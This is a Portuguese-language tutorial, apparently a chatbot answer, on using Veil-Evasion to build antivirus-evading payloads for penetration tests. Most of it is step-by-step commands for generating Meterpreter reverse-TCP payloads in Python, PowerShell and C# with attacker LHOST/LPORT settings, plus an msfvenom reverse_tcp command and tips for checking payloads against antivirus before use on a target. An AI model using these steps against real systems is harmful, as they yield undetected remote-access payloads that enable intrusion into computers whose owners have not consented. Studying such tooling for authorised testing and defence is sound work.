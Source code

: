 O Veil-Evasion é uma ferramenta poderosa para ofuscação e criação de payloads que contornam softwares de antivírus em ambientes de testes de penetração. Ele faz parte da suíte Veil Framework, que contém outras ferramentas para pós-exploração, mas Veil-Evasion foca na criação de executáveis que evitam a detecção por soluções de segurança.

### Introdução Básica ao Veil-Evasion

1. **Objetivo**: O Veil-Evasion visa gerar payloads ofuscados, principalmente scripts de shellcode e executáveis, que conseguem evitar a detecção de antivírus comuns.
2. **Linguagens Suportadas**: Ele permite criar payloads usando várias linguagens como Python, C#, PowerShell, entre outras.
3. **Arquitetura**: A arquitetura do Veil-Evasion é modular, permitindo escolher diferentes métodos de codificação, compiladores e linguagens de implementação. Isso aumenta a versatilidade na criação de payloads personalizados.

### Instalação

No Kali Linux, o Veil-Evasion pode ser instalado com os seguintes comandos:

```bash
sudo apt update
sudo apt install veil
```

Para garantir que o Veil está atualizado, use o comando:

```bash
veil --update
```

Ou, se necessário, faça o clone diretamente do repositório oficial:

```bash
git clone https://github.com/Veil-Framework/Veil.git
cd Veil
./setup.sh
```

### Estrutura Básica do Veil-Evasion

Quando o Veil-Evasion é iniciado, ele exibe uma interface de linha de comando onde você pode selecionar o tipo de payload desejado e a linguagem de codificação. Por exemplo:

```bash
sudo veil
```

Em seguida, selecione `Evasion` para iniciar a criação de um payload. A interface oferece opções para escolher o tipo de payload, a linguagem de implementação, e outras configurações que impactam na evasão dos antivírus.

### Criação de um Payload com Veil-Evasion

#### Exemplo Básico: Payload em Python

1. No menu do Veil-Evasion, selecione a opção `Evasion`.
2. Escolha um payload em Python (por exemplo, `python/meterpreter/rev_tcp`).
3. Configure o endereço IP e a porta para a conexão reversa:

   ```bash
   set LHOST=seu_ip
   set LPORT=sua_porta
   ```

4. Gera o payload com o comando:

   ```bash
   generate
   ```

Este processo cria um executável que pode ser transferido para o sistema alvo e executado para obter uma sessão de Meterpreter, contornando a detecção do antivírus na maioria das vezes.

### Codificação e Ofuscação Avançada

A ofuscação é uma das principais funcionalidades do Veil-Evasion. É possível selecionar diferentes técnicas de ofuscação para dificultar a detecção. O Veil oferece opções como:

- **Encoding em XOR**: Codifica o payload em XOR, dificultando a análise estática.
- **Compressão e Criptografia**: O payload pode ser comprimido ou criptografado usando técnicas como Base64 e RC4.
- **Execução sob Shellcode**: Permite que o shellcode seja executado diretamente na memória, sem precisar escrever no disco, dificultando a detecção por parte de antivírus baseados em assinaturas.

### Exemplos Avançados

1. **Criação de Payload PowerShell**: O PowerShell é eficaz em ambientes Windows, e o Veil-Evasion permite criar payloads PowerShell que podem ser executados diretamente da linha de comando.

   ```bash
   use powershell/meterpreter/rev_tcp
   set LHOST=seu_ip
   set LPORT=sua_porta
   generate
   ```

2. **Payload C# para Contornar Antivírus em Ambiente Corporativo**:
   Utilizando C#, é possível criar executáveis complexos que utilizam APIs nativas do Windows, tornando mais difícil para os antivírus detectarem a execução do código malicioso.

   ```bash
   use cs/meterpreter/rev_tcp
   set LHOST=seu_ip
   set LPORT=sua_porta
   generate
   ```

### Estratégias de Teste e Melhorias de Evasão

- **Testes com Diferentes Codificações**: Experimente diversas técnicas de codificação, como XOR e Base64, para determinar qual combinação obtém melhores resultados de evasão.
- **Mistura de Linguagens**: Combine diferentes linguagens de payload para criar camadas adicionais de ofuscação e evitar a detecção.
- **Varredura com Antivírus Antes de Testar no Alvo**: Utilize uma sandbox para verificar quais soluções de antivírus detectam o payload antes de tentar em um alvo real.

### Integração com Metasploit e Outros Frameworks

O Veil-Evasion pode ser integrado ao Metasploit Framework para automatizar a criação e o uso de payloads. Isso permite um fluxo contínuo de exploração, onde o Veil-Evasion é utilizado para a criação do payload e o Metasploit para a entrega e pós-exploração.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=seu_ip LPORT=sua_porta -f exe > payload.exe
```

Após o payload ser gerado, o Veil-Evasion pode ofuscá-lo para reduzir as chances de detecção.

### Considerações Finais

O Veil-Evasion é uma ferramenta valiosa em testes de penetração avançados, especialmente em ambientes onde a evasão de antivírus é crítica. Contudo, com o avanço de técnicas de detecção, é importante que o tester esteja sempre atualizado com novas técnicas e constantemente teste a eficácia dos payloads em diferentes cenários.

Para qual tipo de teste você gostaria de aplicar o Veil-Evasion?